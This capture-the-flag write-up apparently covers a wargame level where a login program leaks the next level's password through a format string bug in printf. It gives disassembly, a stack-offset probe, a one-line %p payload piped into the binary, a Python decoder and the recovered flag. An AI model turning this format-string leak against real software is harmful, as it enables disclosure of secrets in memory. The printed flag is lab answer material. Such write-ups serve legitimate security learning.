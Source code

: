 # Format string attack again

## Program summary
On this level we have another authentication system, we notice on theses lines that our program recovers the password from the next level with **`fopen()`** to write it on the stack with **`fread()`** :

```
0000000000400814 <main>:
...
40089d:	b8 b2 0b 40 00       	mov    $0x400bb2,%eax
4008a2:	48 89 d6             	mov    %rdx,%rsi
4008a5:	48 89 c7             	mov    %rax,%rdi
4008a8:	e8 53 fe ff ff       	callq  400700 <fopen@plt>
...
4008e6:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
4008ed:	48 8b 55 f8          	mov    -0x8(%rbp),%rdx
4008f1:	48 89 d1             	mov    %rdx,%rcx
4008f4:	ba 29 00 00 00       	mov    $0x29,%edx
4008f9:	be 01 00 00 00       	mov    $0x1,%esi
4008fe:	48 89 c7             	mov    %rax,%rdi
400901:	e8 8a fd ff ff       	callq  400690 <fread@plt>
```
Content of **0x400bb2** :
```
(gdb) x/s 0x400bb2
0x400bb2:        "/home/users/level03/.pass"
```

## Vulnerability
We can notice a **`printf()`** which prints the username, therefore an entry from us.

Since the password resides on the stack and **`printf()`** is vulnerable to format string attacks, we'll use it to read into memory this time.

## Attack design
 The **$RSP** has been subtracted from **0x120** Bytes at the prolog, and the contents of the next level password are set to **` $RBP-0xa0`**,  so we need to determine an offset. To do this, we know that the buffer that **`printf()`** uses starts at **` $RBP-0x70`**, so if we guess the position of this buffer in the stack, we could calculate the exact position of the password located at **` $RBP-0xa0`**.

The stack frame contains in the 28th position our buffer from the start at the time of printf execution.

```
--[ Username: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 

AAAA ffffe3d0 0 61 2a2a2a2a 2a2a2a2a ffffe5c8 f7ff9a08 647361 0 0 0 0 0 0 0 0 0 0 0 0 0 34376848 61733951 574e6758 6e475873 664b394d 0 41414141 25207825 20782520 78252078  does not have access!
```

```
|---------------------|
|        AAAA         | <--- Buffer location RBP-0x70 (At 28th position from the printf stackframe)
|---------------------|
|     48 Bytes Gap    |
|---------------------|
|   ***************   | <--- Password location RBP-0xa0
|---------------------|
|     Unknown gap     |
|---------------------|
|         ...         | <--- printf() stackframe
|---------------------|
|         ...         | <--- //
|---------------------|
|         ...         | <--- //
|---------------------|

```

Given that between the buffer & password location we have a space of 48 bytes, we divide **`48 / 8 = 6`**, because a position with our specified type is equal to 8 bytes, consequently we must subtract 6 positions from 28 which leaves us at position 22th. Our password is exactly 41 bytes, so we need 5 %p and respect the little little endianness convention.

Here is the python script which allows us to convert the hexa little endian format into our flag.



```py
python -c 'print "%26$p %25$p %24$p %23$p %22$p\n"' | ./level02
```

```py
def little_endian_to_big_endian(hex_string):
    if len(hex_string) % 2 != 0:
        raise ValueError("Format error")
    hex_pairs = [hex_string[i:i+2] for i in range(0, len(hex_string), 2)]
    big_endian_hex = ''.join(reversed(hex_pairs))
    return big_endian_hex

def hex_to_ascii(hex_string):
    hex_string = hex_string.replace('0x', '')
    hex_string = little_endian_to_big_endian(hex_string)
    ascii_string = bytes.fromhex(hex_string).decode('utf-8')
    return ascii_string

hex_strings = [
    "0x756e505234376848",
    "0x45414a3561733951",
    "0x377a7143574e6758",
    "0x354a35686e475873",
    "0x48336750664b394d"
]

concatenated_ascii = ""

for hex_str in hex_strings:
    concatenated_ascii += hex_to_ascii(hex_str)

print("Concatenated ASCII: ", concatenated_ascii)

```

> Flag : `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
